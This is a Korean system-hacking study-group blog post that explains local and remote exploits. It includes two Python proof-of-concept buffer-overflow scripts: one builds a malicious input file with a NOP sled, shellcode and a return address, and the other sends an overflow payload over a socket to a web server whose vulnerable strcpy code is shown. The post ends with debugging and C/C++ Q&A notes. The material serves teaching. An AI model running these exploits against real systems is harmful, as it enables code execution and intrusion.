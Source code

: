 ```yaml
---
layout: post
title: SUA 시스템 해킹 스터디
---
```


### 170811 3주차

이번 시간에는 Exploit 분류에 대해 알아보겠다.

<br>
## Exploit 분류

Exploit은 취약점을 공격하는 코드다. 크게 원격에서 공격 가능한 Remote Exploit과 로컬 상에서 공격이 가능한 Local Exploit으로 분류할 수 있다.

<br>
### 1. Local Exploit

Local Exploit은 PC 혹은 서버 내부에서 실행하는 Exploit이다. 일반적으로 권한 상승 혹은 코드 실행을 위해서 사용한다. 인자값을 직접 입력해 주어야 하는 경우나 특정 파일을 통해 입력값을 전달하게 되므로 로컬 상의 권한을 이미 가지고 있는 경우이거나, 파일 실행 등의 조건이 필요하다.

예를 들어, 파일을 입력 받아 출력해 주는 간단한 프로그램이 있다고 하자. 이 프로그램의 경우, 문자열의 길이를 검사하지 않고 복사해주기 때문에 스택 버퍼오버플로우가 발생한다. 그렇다면, 이 취약점을 공격하는 코드는 아래와 같다.

```python
import struct

print "[+] Creat text file..."

nop = "\x90" * 100

shellcode  = "\x31\xd2\xb2\x30\x64\x8b\x12\x8b\x52\x0c\x8b\x52\x1c\x8b\x42"
shellcode += "\x08\x8b\x72\x20\x8b\x12\x80\x7e\x0c\x33\x75\xf2\x89\xc7\x03"
shellcode += "\x78\x3c\x8b\x57\x78\x01\xc2\x8b\x7a\x20\x01\xc7\x31\xed\x8b"
shellcode += "\x34\xaf\x01\xc6\x45\x81\x3e\x46\x61\x74\x61\x75\xf2\x81\x7e"
shellcode += "\x08\x45\x78\x69\x74\x75\xe9\x8b\x7a\x24\x01\xc7\x66\x8b\x2c"
shellcode += "\x6f\x8b\x7a\x1c\x01\xc7\x8b\x7c\xaf\xfc\x01\xc7\x68\x69\x21"
shellcode += "\x21\x01\x68\x6e\x6d\x69\x6e\x68\x20\x68\x79\x75\x89\xe1\xfe"
shellcode += "\x49\x0b\x31\xc0\x51\x50\xff\xd7"

print "Shellcode Length :", len(shellcode)
dummy = "A"*(504-len(nop+shellcode))
buf = struct.pack('<L',0x12fd50)
contents = nop + shellcode + dummy + buf

f = open("test.txt","w")
f.write(contents)
f.close()
```

위 공격 코드를 실행하면 프로그램의 입력값인 텍스트 파일을 만들어주며, 이 프로그램에는 공격 성공 후 실행할 쉘코드가 입력되어 있다(*쉘코드란, 공격자가 실행하길 원하는 코드다. 일반적으로 다양한 악성 행위를 수행하도록 만들어짐*). 공격 코드를 실행하고 생성된 악성 파일을 인자값으로 프로그램을 실행하면 공격자가 원하는 코드가 실행되는 것을 확인할 수 있다. 윈도우 OS의 경우, 주로 직접 인자값에 입력하는 방식의 공격보다는 악성 파일을 이용한 공격이 주를 이룬다. **사용자에게 입력값을 받는 모든 프로그램은 취약점이 존재할 수 있다!**

<br>
### 2. Remote Exploit

Remote Exploit은 Local Exploit과 반대로 원격에서 이루어지는 공격이다. 원격에서 패킷을 보내 공격하므로 특정 포트를 열고 서비스를 제공하는 서버 프로그램이 타겟이 된다. 단순히 포트가 열려있으면 원격에서 공격을 당할 수 있기 때문에 Remote Exploit 공격은 대부분 치명적이다.

예를 들어, 간단한 웹 서버 프로그램이 있다고 하자. 이 프로그램에는 아래 코드와 같이 요청 패킷을 파싱하는 과정에서 경계값 검사를 하지 않는 **strcpy** 함수를 사용하여 버퍼오버플로우 취약점이 발생한다.

```c
int parse(SOCKET sock, char *buf) {
  char url[1000] = {0,};
  char send_buf[2000] = {0,};
  char * token = strtok(buf, " ");
  char * method = token;
  strcpy(url, token+(strlen(method)+1));
  printf("URL : %s\n", url);
}
```

아래 Exploit 코드는 원격에서 패킷을 보내는 Remote Exploit 코드다.

```python
import struct
from socket import *

nop = "\x90" * 200
shellcode  = "\x31\xd2\xb2\x30\x64\x8b\x12\x8b\x52\x0c\x8b\x52\x1c\x8b\x42"
shellcode += "\x08\x8b\x72\x20\x8b\x12\x80\x7e\x0c\x33\x75\xf2\x89\xc7\x03"
shellcode += "\x78\x3c\x8b\x57\x78\x01\xc2\x8b\x7a\x20\x01\xc7\x31\xed\x8b"
shellcode += "\x34\xaf\x01\xc6\x45\x81\x3e\x46\x61\x74\x61\x75\xf2\x81\x7e"
shellcode += "\x08\x45\x78\x69\x74\x75\xe9\x8b\x7a\x24\x01\xc7\x66\x8b\x2c"
shellcode += "\x6f\x8b\x7a\x1c\x01\xc7\x8b\x7c\xaf\xfc\x01\xc7\x68\x69\x21"
shellcode += "\x21\x01\x68\x6e\x6d\x69\x6e\x68\x20\x68\x79\x75\x89\xe1\xfe"
shellcode += "\x49\x0b\x31\xc0\x51\x50\xff\xd7";

print "Shellcode Length :", len(shellcode)
dummy = "A"*(499-len(nop+shellcode))
#buf = struct.pack('<L',0x42424242)
buf = struct.pack('<L',0x00416124)
payload = nop + shellcode + dummy + buf

print " [+] Sending Packet..."
s = socket(AF_INET,SOCK_STREAM,0)
s.connect(('127.0.0.1',80))
s.send("GET /"+payload)
print s.recv(150)
s.close()
```

위 코드를 실행하면 원격에서 해당 웹 서버 프로그램을 공격하여 원하는 코드를 실행시킬 수 있음을 확인할 수 있다.

Remote Exploit은 원격에서 직접 공격이 가능하여 주로 서버에 접근 권한을 얻기 위한 1차 공격으로 많이 사용된다. Remote Exploit을 통해 서버의 일반 사용자 권한을 획득한 뒤, Local Exploit을 통해 추가 권한 상승을 시도하는 것이 일반적인 침투 절차이다.

<br>
## [질문 내용 정리]

- **CALL(Call a Procedure), RET 와 함수 에필로그 차이점?**

어셈블리어 중 CALL 명령어는 함수 호출 시 사용한다. JMP 명령어와 비슷하게 프로그램 실행 흐름을 변경하지만 다른 점은 되돌아오는 리턴 주소(*CALL 다음 명령*)를 스택에 저장한다. 함수 호출후 원래 위치로 실행 흐름을 되돌리고 나서 다시 프로그램이 실행될 수 있다. RET 명령어는 CALL 명령어로 호출한 함수의 주소를 EIP에 저장하고, CALL 명령어로 감소되었던(*ex: PUSH 명령어로 줄어든 ESP 4바이트*) 4바이트를 다시 4바이트 증가시킨다. 함수 에필로그는 CALL 명령어로 호출한 함수를 실행하고 나서, LEAVE(*POP EBP 해서 Base Pointer를 복구하는 과정*) 와 RET 명령어(*PUSH 명령어로 줄어든 4바이트를 다시 4바이트 확장시키는 과정*) 수행을 마치고 처음 호출한 지점으로 돌아가기 위해 스택을 복원하는 과정이다. 참고로, 방식은 함수 호출 규약에 따라 조금씩 다르다.

- **Back To User Mode?**

Back To User Mode는 OllyDbg로 특정 프로그램을 디버깅할 때, 한 이벤트가 발생하기 전에 이 모드를 설정한 뒤, Call 명령어가 수행되고 나서 바로 다음 위치를 잡을 수 있는 기능을 말한다.

> 1. 분석할 프로그램을 OllyDbg로 실행한다.
> 2. F9를 눌러 프로그램 실행시켜 특정 이벤트를 발생시킨다.
> 3. F12를 눌러 프로그램을 일시정지 상태로 둔다.
> 4. Alt+F9를 누르면 Back To User Mode가 설정된다.
> 5. 프로그램을 확인해보면 잠시 멈쳤다가 정상적으로 뜬다. 이 때 버튼 클릭이나 다른 이벤트를 수행한다.
> 6. OllyDbg가 자동으로 해당 이벤트 수행 부분에 커서가 이동된다.

- **인라인 코드 패치(Inline Code Patch)**

[실습 문제](http://blog.eairship.kr/303) 중간에 EBX가 4010F5, EDX에 0으로 값을 덮어씌우고 4010F5~401248에서 순차적으로 4바이트 단위로 값을 읽어온 뒤 ADD 연산을 왜 하는 지..? 그리고 그 다음에 OEP 코드가 나오고, API 함수 호출하는 부분에서 매개변수로 받을 때, MSDN 에서 매개변수가 몇 개인지, 각각 어떤 변수인지 확인했고.. 함수 호출 시 cdecl 규약(*C/C++ 언어의 기본 함수 호출 규약*)에 따라 역순으로 매개변수를 PUSH 하고 함수 호출한 뒤 이어지는 다음 라인에 스택을 정리한다. 40122C 주소의 4010F5 값이 DlgProc 즉, IpDialogFunc의 값이 된다.(*IpDialogFunc 는 다이얼로그 박스 프로시저를 가리키는 포인터 -> 주소*) 아직 더 공부해야 함..

- **main(), tmain(), wmain() 차이?**

main() 이라는 함수는 모든 C/C++ 프로그램의 실행이 시작되는 지점. 유니코드 프로그래밍 모델을 따르는 코드를 작성할 경우 main()의 와이드(Wide) 문자 버전인 wmain()을 사용할 수 있다. tmain()은 Visual Studio에서 Win32 콘솔 응용 프로그램 프로젝트를 생성하면 생기는 함수며 TCHAR.h에 정의되어 있다.
> #define tmain wmain

즉, tmain()은 wmain()과 같은 것이다. 그리고 tmain()은 사용했을 때 유니코드가 정의되어 있지 않으면 main()으로 인식하고, 유니코드가 정의된 경우에는 wmain()으로 인식한다.

- **C/C++ 에서 stdafx.h와 Precompiled Header란?**
stdafx.h는 Standard Application Frameworks의 약자로, 개발자들의 생산성 향상을 위해 마이크로소프트에서 제공하는 소프트웨어 라이브러리 체계를 뜻하며 MFC로 구성되어 있다. (*MFC는 윈도우 환경에서 GUI 프로그램을 C++ 언어를 사용하여 개발할 때, Win32 API의 핸들과 C언어 함수들을 C++ 언어 클래스로 만든 라이브러리 ex) Visual C++*) 이 안에 포함하는 내용을 보면 윈도우 객체 생성에 필요한 기본 클래스(*afx.h, afxwin.h 등*), 윈도우 컨트롤, 기본 DB 관련 클래스, 네트워크 관련 클래스 등 기본적인 프레임워크 구축에 필요한 필수 헤더들이 있다. 그런데 일부 헤더 파일의 경우, 방대한 크기의 소스 코드를 포함할 수 있어서(*ex) window.h*) 이런 코드들을 매번 컴파일하면 전체 컴파일 시간이 길어진다. 그래서 자주 바뀌지 않는 기본적인 라이브러리들의 경우, 컴파일 시간을 줄이고자 컴파일러가 사전에 헤더 파일들을 미리 컴파일하고 쓸 수 있게 하는 데 그것이 Precompiled Header(*PCH*) 이다. MFC에서 자주 사용하는 공용 소스들을 Precompiled Header로 만들어 제공하기 위해 default로 stdafx.h와 stdafx.cpp가 자동으로 생성되는 것이다(*Visual Studio에서 프로젝트 속성 - C/C++ - 미리 컴파일된 헤더 항목에서 PCH 사용 여부 선택 가능*). 즉, PCH를 사용하면 자주 변경되지 않는 긴 소스 파일을 미리 컴파일하여 해당 컴파일 결과를 별도의 파일(.pch)에 저장을 해놓고, 컴파일할 때 해당 파일들을 새로  컴파일 하지 않고, 미리 컴파일된 파일을 사용함으로써 컴파일 속도를 향상시킨다.
